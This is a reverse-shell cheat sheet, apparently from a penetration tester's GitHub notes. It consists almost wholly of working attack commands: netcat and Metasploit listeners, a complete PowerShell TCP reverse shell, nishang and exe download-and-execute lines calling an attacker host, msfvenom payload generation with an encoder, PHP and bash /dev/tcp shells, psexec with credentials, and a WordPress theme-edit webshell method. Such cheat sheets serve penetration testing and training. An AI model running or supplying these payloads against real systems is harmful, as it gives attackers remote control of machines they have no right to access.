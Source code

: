 # Reverse Shell

## Listeners
___

### NC
```
nc -lvnp 4444
```
### Metasploit
- Meterpreter listener
```
use exploit/multi/handler
set lhost 0.0.0.0
set lport 4444
set payload windows/(x64)/meterpreter/reverse_tcp
```

## Payload
___

### PHP
- Get reverse shell from Wordpress admin dashboard using themes edition
```
Login as admin, and edit a theme's php file.
Replace content with Pentest Monkey's php-reverse-shell
Browse file : http://hostname/wordpress/wp-content/themes/themename/file.php
```

### Windows

- Powershell
```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- Reverse shell with nishang Invoke-PowershellTcp
```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1')
Invoke-PowerShellTcp -Reverse -IPAddress 10.6.77.211 -Port 4444
```

- Upgrade shell to meterpreter session
```sh
# Generate Payload with msfvenom then serve it with SimpleHTTPServer
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o rshell.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your-ip
set LPORT listening-port
run
python -m SimpleHTTPServer 8000
```

- Download and execute payload on target machine
```powershell
powershell (New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')
```

- Reverse/Privilege Escalation with credentials
```sh
python3 /usr/share/doc/python3-impacket/examples/psexec.py domain/user:password@0.0.0.0 cmd.exe
```

### Metasploit

- Get meterpreter session with SSH login
```sh
use auxiliary/scanner/ssh/ssh_login
set rhosts 0.0.0.0
set username user
set password pass
run
sessions -u 1
```

- Exe Payload
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local ip address> LPORT=<local listening port> -f exe > shell.exe
```

- PHP Payload
```sh
msfvenom -p php/meterpreter_reverse_tcp LHOST=<local ip address> LPORT=<local listening port> -f raw > shell.php
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```
- Basic PHP command line to open a shell
```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/0.0.0.0/4445 0>&1'");
```

- Bash command to open shell
```sh
bash -c 'bash -i >& /dev/tcp/0.0.0.0/4444 0>&1'
```

## Upgrading shell
___
- Upgrade shell to bash/pty

```sh
SHELL=/bin/bash script -q /dev/null
```
```sh
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
```

## Links
___
### Guides
- https://www.hackingarticles.in/wordpress-reverse-shell/
- https://github.com/pentestmonkey/php-reverse-shell
- http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
- https://netsec.ws/?p=331
- https://gtfobins.github.io/

### Writeups
- 